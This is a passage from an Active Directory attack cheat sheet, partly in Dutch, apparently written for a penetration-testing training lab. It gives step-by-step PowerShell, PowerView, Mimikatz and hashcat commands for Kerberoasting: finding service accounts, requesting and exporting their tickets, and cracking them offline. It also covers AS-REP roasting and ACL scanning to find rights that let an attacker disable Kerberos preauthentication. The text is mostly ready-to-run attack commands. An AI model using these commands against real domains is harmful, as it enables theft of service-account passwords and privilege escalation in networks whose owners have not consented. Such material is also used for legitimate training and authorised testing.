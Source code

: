 ```
Get-NetUser -SPN
```
```
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```

#### Reguest a TGS
```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"
```
or
```
Request-SPNTicket "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"
```

#### Export ticket using Mimikatz
```
Invoke-Mimikatz -Command '"Kerberos::list /export"'
```

#### Crack the ticket
Crack the password for the serviceaccount
```
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\2-40a10000-student1@MSSQLSvc~dcorp-mgmt.dollarcorp.moneycorp.local-DOLLARCORP.MONEYCORP.LOCAL.kirbi
```

```
.\hashcat.exe -m 18200 -a 0 <HASH FILE> <WORDLIST>
```

## AS-REPS Roasting
AS-REPS roasting is een technique waarbij het wachtwoord achterhaald kan worden omdat de 'Do not require Kerberos preauthentication property' is aangezet, oftewel kerberos preauthentication staat uit. Een aanvaller kan de eerste stap van authenticatie overslaan en voor deze gebruiker een TGT aanvragen, welke vervolgens offline gekraakt kan worden.
#### Enumerating accounts with kerberos preauth disabled
```
. .\Powerview_dev.ps1
Get-DomainUser -PreauthNotRequired -Verbose
```
```
Get-DomainUser -PreauthNotRequired -verbose | select samaccountname
```

#### Enumerate permissions for group
Met genoeg rechten(GenericWrite of GenericAll) is het mogelijk om kerberos preauth uit te schakelen.
```
Invoke-ACLScanner -ResolveGUIDS | Where-Object {$_.IdentityReference -match “<groupname>”}
Invoke-ACLScanner -ResolveGUIDS | Where-Object {$_.IdentityReference -match “<groupname>”} | select IdentityReference, ObjectDN, ActiveDirectoryRights | fl
```
